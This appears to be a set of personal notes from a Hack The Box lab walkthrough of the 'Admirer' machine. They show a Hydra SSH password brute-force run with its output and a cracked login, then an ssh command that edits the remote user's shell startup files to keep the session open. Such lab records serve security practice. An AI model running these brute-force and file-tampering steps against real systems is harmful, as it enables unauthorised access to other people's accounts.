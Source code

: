 
$_SERVER['DOCUMENT_ROOT']	/var/www/html


kali@kali:~/htb/boxes/admirer/10.10.10.187$ hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.187 
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-07 13:42:08
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 110 login tries (l:22/p:5), ~110 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://waldo@10.10.10.187:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.187:22
[STATUS] 29.00 tries/min, 29 tries in 00:01h, 81 to do in 00:03h, 1 active
[STATUS] 27.00 tries/min, 54 tries in 00:02h, 56 to do in 00:03h, 1 active
[STATUS] 26.33 tries/min, 79 tries in 00:03h, 31 to do in 00:02h, 1 active
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[STATUS] 26.75 tries/min, 107 tries in 00:04h, 3 to do in 00:01h, 1 active
[STATUS] attack finished for 10.10.10.187 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-07 13:46:15


https://askubuntu.com/questions/349631/why-is-my-ssh-connection-dropping-immediately-after-i-enter-my-password

ssh ftpuser@10.10.10.187 sed -i '/exit\ 0/d' .bashrc .bash_profile .profile .login


http://10.10.10.187/utility-scripts/db_admin.php 
does not exist anymore

none of the passwords work
![](2021-02-07-14-03-55.png)

